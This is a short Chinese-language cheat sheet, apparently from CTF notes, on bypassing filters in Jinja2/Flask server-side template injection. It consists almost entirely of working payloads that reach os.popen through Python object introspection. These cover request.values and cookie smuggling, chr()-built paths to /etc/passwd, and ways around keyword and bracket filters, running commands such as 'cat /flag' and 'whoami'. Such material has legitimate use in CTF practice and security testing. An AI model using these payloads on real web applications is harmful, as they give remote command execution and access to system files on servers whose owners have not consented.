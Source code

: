 

request绕过

```
# request.values
{{"".__class__.__bases__.__getitem__(0).__subclasses__().pop(128).__init__.__globals__.popen(request.values.rce).read()}}&rce=cat /flag
# request.cookies
{{"".__class__.__bases__.__getitem__(0).__subclasses__().pop(128).__init__.__globals__.popen(request.cookies.rce).read()}}
Cookie: rce=cat /flag;
# 还有request.headers、request.args，这里不作演示
```



chr函数绕过

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
# %2b是+的url转义
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}
```





### 过滤了args关键字

直接使用另外一种方法request.values.x即可

```
{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__[request.values.x](request.values.y).read()}}&x=popen&y=cat /flag
```

 

### 过滤中括号

```
{{url_for.__globals__.os.popen('cat /flag').read()}}
```



```
# 原payload，可以使用__base__绕过__bases__[0]
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()
# 通过__getitem__()绕过__bases__[0]、通过pop(128)绕过__subclasses__()[128]
"".__class__.__bases__.__getitem__(0).__subclasses__().pop(128).__init__.__globals__.popen('whoami').read()

# 原payload
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")
# 绕过
[].__class__.__base__.__subclasses__().__getitem__(59).__init__.__globals__.__builtins__.eval("__import__('os').popen('whoami').read()")
```
